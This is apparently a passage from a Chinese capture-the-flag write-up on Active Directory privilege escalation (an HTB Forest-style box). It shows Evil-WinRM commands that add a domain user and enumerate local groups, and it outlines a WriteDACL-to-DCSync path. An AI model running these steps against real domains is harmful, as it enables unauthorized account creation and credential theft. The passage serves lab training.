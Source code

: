 步骤二：

Exchange 组里通 writeDac 到域控 ， DCSync，可以参考 [记一次靶场域场景之域渗透-NTLM中继攻击思路 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/306668.html)

<img src=".\图片\Snipaste_2023-09-13_15-20-46.png" alt="Snipaste_2023-09-13_15-20-46" style="zoom:80%;" />



## 操作步骤

### 步骤一：

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net user zf1yolo zf1yolo /add /domain
```

查看组信息

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net localgroup

Aliases for \\FOREST

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
```